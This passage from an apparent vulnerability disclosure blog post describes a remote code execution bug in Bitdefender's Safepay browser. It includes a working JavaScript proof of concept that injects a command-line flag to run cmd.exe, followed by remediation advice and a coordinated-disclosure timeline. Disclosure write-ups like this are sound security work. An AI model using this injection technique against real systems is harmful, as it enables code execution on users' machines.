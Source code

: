 We've seen `NDSECK` and `NDCA` values before, it's the values which can be extracted from Bitdefender's error page. `OBKCMD` can be `obk.ask` or `obk.run` depending on whether we want to ask the user first or run the Safepay browser immediately (we want the latter of course). `OBKREFERRER` can be any address and doesn't seem to matter. But the `params` value sent with the request is important, it will be the address opened in the Safepay browser.

So now we have a way to open a malicious website in the Safepay browser, and we can potentially compromise all the nicely isolated online banking websites running there. But that's not the big coup of course. What if we try to open a `javascript:` address? Well, it crashes, could be exploitable... And what about whitespace in the address? Spaces will be URL-encoded in `https:` addresses but not in `data:` addresses. And then we see the [same issue as with Avast's banking mode](/2020/01/13/pwning-avast-secure-browser-for-fun-and-profit/#going-beyond-the-browser), whitespace allows injecting command line flags.

That's it, time for the actual exploit. Here, `param1` and `param2` are the values extracted from the error page:

{{< highlight js >}}
var request = new XMLHttpRequest();
request.open("POST", Math.random());
request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
request.setRequestHeader("BDNDSS_B67EA559F21B487F861FDA8A44F01C50", param1);
request.setRequestHeader("BDNDCA_BBACF84D61A04F9AA66019A14B035478", param2);
request.setRequestHeader("BDNDWB_5056E556833D49C1AF4085CB254FC242", "obk.run");
request.setRequestHeader("BDNDOK_4E961A95B7B44CBCA1907D3D3643370D", location.href);
request.send("data:text/html,nada --utility-cmd-prefix=\"cmd.exe /k whoami & echo\"");
{{< /highlight >}}

And this is what you get then:

{{< img src="rce.png" width="707" alt="Command line prompt displayed on top of the Safepay browser window" />}}

The first line is the output of the `whoami` command while the remaining output is produced by the `echo` command -- it displays all the additional command line parameters received by the application.

## Conclusions

It's generally preferable that antivirus vendors stay away from encrypted connections as much as possible. Messing with server responses tends to cause issues even when executed carefully, which is why I consider browser extensions the preferable way of implementing online protection. But even with their current approach, Bitdefender should really leave error handling to the browser.

There is also the casual reminder here that even data considered safe should not be trusted unconditionally. That's particularly the case when constructing command lines, properly escaping parameter values should be the default, so that unintentionally injecting command line flags for example is impossible. And of course: if you don't use some code, remove it! Less code automatically means fewer potential vulnerabilities.

## Timeline

* 2020-04-15: Reported the vulnerability via the [Bitdefender Bug Bounty Program](https://www.bitdefender.com/site/view/bug-bounty.html).
* 2020-04-15: Confirmation from Bitdefender that the report was received.
* 2020-04-16: Confirmation that the issue could be reproduced, CVE number assigned.
* 2020-04-23: Notification that the vulnerability is resolved and updates are underway.
* 2020-05-04: Communication about bug bounty payout (declined by me) and coordinated disclosure.
* 2020-05-12: Confirmation that fixes have been pushed out. Disclosure delayed due to waiting for technology partners.